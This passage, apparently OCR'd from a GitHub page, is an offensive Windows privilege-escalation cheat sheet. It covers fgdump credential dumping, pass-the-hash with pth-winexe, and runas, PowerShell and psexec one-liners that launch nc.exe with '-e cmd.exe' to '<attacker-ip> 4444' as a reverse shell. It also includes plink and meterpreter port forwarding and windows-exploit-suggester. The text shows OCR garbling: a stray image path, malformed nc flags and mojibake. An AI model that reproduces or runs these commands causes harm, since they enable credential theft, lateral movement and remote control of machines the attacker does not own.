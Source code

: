 fgdump.exe

Download and run fgdump.exe on the target machine.

$ cd /usr/share/windows-binaries/fgdump; python -m SimpleHTTPServer 80

$ pth-winexe -U DOMAIN/user%hash //$ip cmd

or:

export SMBHASH=xxx

$ pth-winexe -U user%  //$ip cmd

You can also do run as, with the hash:

Technique 1:

C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"

Technique 2:

$ secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force

$ mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)

$ computer = "<hostname>"

[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker\_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)

$ powershell -ExecutionPolicy Bypass -File c:\users\public\r.ps1

Technique 3:

$ psexec64 \\COMPUTERNAME -u Test -p test -h "c:\users\public\nc.exe -nc <attacker\_ip> 4444 -e cmd.exe"

EoP 5: Services only available from loopback

You can find services bind to the loopback interface that are not reachable through the network running.look for \*\*LISTENING/LISTEN\*\*:

netstat -ano

Port forward using plink

$ plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080

Port forward using meterpreter

$ portfwd add -l <attacker port> -p <victim port> -r <victim ip>

portfwd add -l 3306 -p 3306 -r 192.168.1.101

If powershell is blocked, you can download:

https://github.com/Ben0xA/nps

Once you know the updates installed, you can find known exploits using windows-exploit-suggester.

$ ./windows-exploit-suggester.py -d 2017-02-09-mssb.xls -p ms16-075

[\*] initiating winsploit version 3.2â€¦
